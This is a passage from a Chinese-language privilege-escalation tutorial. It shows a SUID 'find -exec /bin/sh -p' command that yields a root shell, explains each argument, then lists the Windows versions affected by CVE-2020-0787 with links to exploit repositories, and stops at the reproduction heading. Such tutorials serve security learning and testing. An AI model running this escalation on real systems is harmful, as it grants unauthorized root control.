 获取交互式的root shell

```bash
lonelyor@ubuntusrv2004:~$ find / -name abc -exec /bin/sh -p \; -quit
# whoami
root
```

各部分的含义如下：

- `find /`：这是`find`命令的基本格式，表示在根目录（`/`）下查找
- `-name abc`：这个参数指定了要查找的文件或目录的名称，即`abc`
- `-exec /bin/sh -p \;`：这个参数表示对每个找到的文件或目录执行`/bin/sh -p`命令。这里的`\;`表示-exec选项的结束
- `-quit`：这个参数表示在找到第一个匹配项后立即退出

## 5. Windows：CVE-2020-0787

### 5.1 影响版本

```
Microsoft Windows 7 SP1
Windows 8.1，Windows RT 8.1
Windows 10
Windows Server 2008 SP2
Windows Server 2008 R2 SP1
Windows Server 2012，Windows Server 2012 R2
Windows Server 2016，Windows Server 2019
Windows 10版本1607，Windows 10版本1709
Windows 10版本1803，Windows 10版本1809
Windows 10版本1903，Windows 10
```

### 5.2 项目地址

```bash
https://www.hacking8.com/tiquan/windows/CVE-2020-0787.html
https://github.com/cbwang505/CVE-2020-0787-EXP-ALL-WINDOWS-VERSION/releases/tag/1
```

### 5.3 漏洞复现
